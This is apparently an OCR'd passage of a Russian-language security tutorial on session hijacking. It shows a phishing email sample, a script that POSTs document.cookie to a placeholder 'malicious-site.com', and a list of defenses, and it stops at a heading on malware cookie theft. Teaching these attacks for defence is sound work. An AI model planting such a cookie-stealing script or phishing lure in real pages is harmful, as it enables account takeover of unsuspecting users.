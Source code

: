 #### Пример сценария атаки

1. **Создание поддельного сайта**:
   Злоумышленник создает сайт, который выглядит как настоящая страница входа в популярный сервис.

2. **Отправка фишингового письма**:
   Пользователю отправляется письмо с текстом:
   ```
   Уважаемый клиент, для подтверждения вашей учетной записи выполните вход на нашем сайте: https://fake-login.com
   ```

3. **Кража cookie**:
   Когда пользователь входит на поддельный сайт, скрипт на этом сайте захватывает его session ID и отправляет его злоумышленнику:
   ```html
   <script>
       fetch('https://malicious-site.com/steal-cookie', {
           method: 'POST',
           body: document.cookie
       });
   </script>
   ```

4. **Захват сессии**:
   Злоумышленник использует украденный session ID для доступа к учетной записи пользователя.

#### Как защититься от фишинга?

1. **Обучение пользователей**:
   - Пользователи должны быть обучены распознавать фишинговые письма и избегать перехода по подозрительным ссылкам.
   - Проверяйте URL-адреса перед вводом данных. Настоящие сайты используют HTTPS и имеют корректный домен.

2. **Двухфакторная аутентификация (2FA)**:
   Даже если злоумышленник получит session ID, двухфакторная аутентификация может предотвратить доступ к учетной записи.

3. **Использование антивирусного ПО**:
   Современные антивирусные программы могут обнаруживать и блокировать фишинговые сайты.

4. **Фильтрация ссылок**:
   Настройте фильтры электронной почты для блокировки писем с подозрительными ссылками.

5. **Регулярное обновление ПО**:
   Убедитесь, что браузеры и операционные системы пользователей обновлены, чтобы минимизировать уязвимости.

### Кража через вредоносное ПО

Вредоносное ПО (malware) — это программы, созданные злоумышленниками для выполнения вредоносных действий на устройстве пользователя. Одной из целей такого ПО может быть кража локально сохраненных cookie, которые содержат session ID и другую конфиденциальную информацию.

#### Как локальные cookie могут быть украдены?
